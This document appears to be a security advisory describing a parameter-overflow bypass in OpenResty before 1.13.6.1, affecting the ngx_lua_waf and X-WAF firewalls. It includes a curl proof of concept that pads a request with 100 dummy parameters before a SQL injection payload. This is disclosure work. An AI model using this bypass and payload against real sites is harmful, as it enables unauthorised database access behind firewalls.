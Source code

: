 # Uri parameter overflow in OpenResty

### General Description	

Prior to the OpenResty 1.13.6.1 version, URI parameters were obtained using the ngx.req.get_uri_args, ngx.req.get_post_args functions, allowing remote attackers to bypass OpenResty based security and affect multiple open source WAF.

### Details

First look at the official API document. There are two ways to get a URI: ngx.req.get_uri_args, ngx.req.get_post_args. The main difference between the two is the difference between the parameter sources, the ngx.req.get_uri_args acquires the URI request parameters, and the ngx.req.get_post_args gets the content from the post request.

Test case：

```
server {
   listen    80;
   server_name  localhost;

   location /print_param {
       content_by_lua_block {
           local arg = ngx.req.get_uri_args()
           for k,v in pairs(arg) do
               ngx.say("[GET ] key:", k, " v:", v)
           end
       ngx.req.read_body()
       local arg = ngx.req.get_post_args()
       for k,v in pairs(arg) do
           ngx.say("[POST] key:", k, " v:", v)
       end
   }

   }
}
```

When the same parameter ID is submitted, it is sorted according to the order of received parameters.

However, when the parameter ID is used to transform the case, such as Id, iD and ID, it will be regarded as different parameters.

![](2.png)

#### Uri parameter overflow

What happens if we do not have a segment parameter, so I construct a test case that is convenient for display, a0-a9, 10*10, a total of 100 parameters, and then add the 101st parameters to the SQL injection Payload, let's see what happens?

Test cases:

```
 curl '127.0.0.1/test?
 a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&
 a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&
 a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&
 a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&
 a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&
 a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&
 a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&
 a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&
 a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&
 a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&
 id=1 union select 1,schema_name,3 from INFORMATION_SCHEMA.schemata'
```

Output results:

![](3.png)

It can be seen that using ngx.req.get_uri_args to get URI request parameters, we only get the first 100 parameters, and the 101st parameter is not obtained. 

Continue to construct a POST request and look at it.

![](4.png)

The content of post request obtained by ngx.req.get_post_args also obtains the first 100 parameters.

To sum up, the first 100 parameters can be obtained by ngx.req.get_uri_args and ngx.req.get_post_args. When the 101st parameters are submitted, the parameters of the URI parameters are overrun and the parameter values after 100th are not properly obtained. 

Based on the security protection of the ngx_lua development, it is impossible for the attacker to carry out effective security detection for the 100th subsequent parameters submitted by the attacker, thus bypassing the security defense.

### Impact products

#### A ngx_lua_waf

Ngx_lua_waf is a web application firewall based on lua-nginx-module (openresty).

Using ngx.req.get_uri_args and ngx.req.get_post_args to get URI parameters.

github：https://github.com/loveshell/ngx_lua_waf

**Interception effect diagram：**

![](5.png)

**Using uri parameter overflow Bypass：**

![](6.png)

#### B X-WAF

X-WAF is a cloud WAF system suitable for small and medium-sized businesses, enabling small and medium-sized businesses to have their own free cloud WAF conveniently.

Using ngx.req.get_uri_args and ngx.req.get_post_args to get URI parameters.

The official website：https://waf.xsec.io 

github：https://github.com/xsec-lab/x-waf

**Interception effect diagram：**

![](7.png)

**Using uri parameter overflow Bypass：**

![](8.png)
